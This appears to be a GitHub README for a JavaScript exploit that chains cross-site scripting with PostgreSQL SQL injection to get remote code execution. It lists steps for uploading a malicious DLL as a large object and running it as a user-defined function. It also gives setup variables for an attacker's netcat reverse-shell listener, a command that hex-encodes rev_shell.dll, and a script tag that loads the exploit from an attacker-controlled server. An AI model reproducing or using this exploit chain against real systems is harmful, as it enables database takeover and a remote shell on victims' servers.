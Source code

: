 # Postgres-SQLi-RCE.js
PostgreSQL Large Objects and UDF (User Defined Functions) RCE exploit re-written in javascript, for easy chaining with XSS

## Methdology
```
Step 1: Create a DLL file that will contain our malicious code
Step 2: Inject a query that creates a large object from an arbitrary remote file on disk
Step 3: Inject a query that updates page 0 of the newly created large object with the first 2KB of our DLL
Step 4: Inject queries that insert additional pages into the pg_largeobject table to contain the remainder of our DLL
Step 5: Inject a query that exports our large object (DLL) onto the remote server file system
Step 6: Inject a query that creates a PostgreSQL User Defined Function (UDF) based on our exported DLL
Step 7: Inject a query that executes our newly created UDF
```

## Requirements <br>
1. **jQuery:** If the target page does not have jQuery included, you can add it from exploit script like [this](https://stackoverflow.com/questions/1140402/how-to-add-jquery-in-js-file/36343307) 
2. **Linux/Windows/MAC OSX:** To generate postgres extension

## Setup
Follow this article to generate a database extension for the target machine <br>
https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions

Then, set the following variables
```javascript
var nc_ip = "192.168.XXX.XXX"; //Attacker's netcat listener IP
var nc_port = "4444"; //Attacker's netcat listener port
var url= "/vulnerable-path";

var udf="<Add the database extension hex code here >"; //xxd rev_shell.dll | cut -d" " -f 2-9 | sed 's/ //g' | tr -d '\n' > rev_shell.dll.txt

//Reference: https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions
```
## Exploitation: XSS Chaining
```javascript
<script src=http://<attacker-server>/postgres_linux_rce.js></script>
```




